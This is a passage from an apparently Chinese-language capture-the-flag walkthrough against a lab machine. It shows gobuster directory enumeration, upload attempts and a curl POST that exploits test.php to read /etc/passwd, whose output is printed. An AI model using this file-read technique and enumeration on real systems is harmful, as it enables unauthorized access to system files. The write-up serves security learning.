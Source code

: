 ```shell
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,tar
[+] Timeout:                 10s
===============================================================
2023/06/03 15:19:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.2.143/images/]
/index.php            (Status: 200) [Size: 3267]
/index                (Status: 200) [Size: 3267]
/c                    (Status: 200) [Size: 1]
/c.php                (Status: 200) [Size: 1]
/in.php               (Status: 200) [Size: 47525]
/in                   (Status: 200) [Size: 47521]
/show                 (Status: 200) [Size: 1]
/show.php             (Status: 200) [Size: 1]
/add                  (Status: 200) [Size: 307]
/add.php              (Status: 200) [Size: 307]
/test.php             (Status: 200) [Size: 72]
/test                 (Status: 200) [Size: 72]
/head                 (Status: 200) [Size: 2793]
/head.php             (Status: 200) [Size: 2793]
/uploaded_images      (Status: 301) [Size: 324] [--> http://192.168.2.143/uploaded_images/]
/panel                (Status: 302) [Size: 2469] [--> index.php]
/panel.php            (Status: 302) [Size: 2469] [--> index.php]
/head2.php            (Status: 200) [Size: 2468]
/head2                (Status: 200) [Size: 2468]
/server-status        (Status: 403) [Size: 294]
Progress: 880590 / 882244 (99.81%)
===============================================================
2023/06/03 15:22:20 Finished
===============================================================
```

#### 根据目录发现尝试上传点

-   ![image-20230603152714851](https://raw.githubusercontent.com/r0o983/images/main/image-20230603152714851.png)

-   这里上传文件被重定向回来
-   ![image-20230603153105778](https://raw.githubusercontent.com/r0o983/images/main/image-20230603153105778.png)

#### 根据提示尝试文件读取

-   ![image-20230603153444184](https://raw.githubusercontent.com/r0o983/images/main/image-20230603153444184.png)

-   此处经过尝试发现无法使用get方式获取文件，尝试使用post方式获取文件

-   ```shell
    └─$ curl -d "file=/etc/passwd" http://192.168.2.143/test.php    
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh